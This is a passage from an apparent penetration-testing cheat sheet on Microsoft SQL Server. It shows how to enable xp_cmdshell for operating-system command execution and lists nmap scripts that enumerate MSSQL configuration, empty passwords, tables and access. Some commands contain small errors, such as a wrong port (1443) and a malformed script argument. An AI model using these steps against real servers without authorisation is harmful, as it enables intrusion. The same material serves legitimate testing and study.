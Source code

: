 #### 1.6.6 - Enable xp_cmdshell

- **Enumerate the xp_cmdshell whatever if it's enabled or not

```
1> SELECT name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys.configurations WHERE name = 'xp_cmdshell';
2> go
```

- **Enable xp_cmdshell for remote execution**

```
1> EXEC sp_configure 'show advanced options', 1;
2> EXEC sp_configure 'xp_cmdshell', 1;
3> RECONFIGURE;
4> go

1> xp_cmdshell 'whoami';
2> go
```

## 02 - Nmap

### 2.1 - MSSQL Information

`$ nmap -p 1433 --script ms-sql-info <IP>`

`$ nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 <IP>`

### 2.2 - Dedicated Admin Connection

`$ sudo nmap -p 1433 -sU --script ms-sql-dac <IP>`

### 2.3 - Empty Password

`$ nmap -p 1433 --script ms-sql-empty-password <IP>`

### 2.4 - Configuration

`$ nmap -p 1443 --script ms-sql-config --script-args mssql.username=<username>,mssql.password=<password> <IP>`

### 2.5 - Database

#### 2.5.1 - Retrieve Relation

`$ nmap -p 1433 --script ms-sql-tables --script mssql.username=<username>,password=<password> <IP>`

#### 2.5.2 - Database Access

`$ nmap -p 1433 --script ms-sql-hasdbaccess --script-args mssql.username=<username>,mssql.password=<password> <IP>`

### 2.6 - SQL Queries
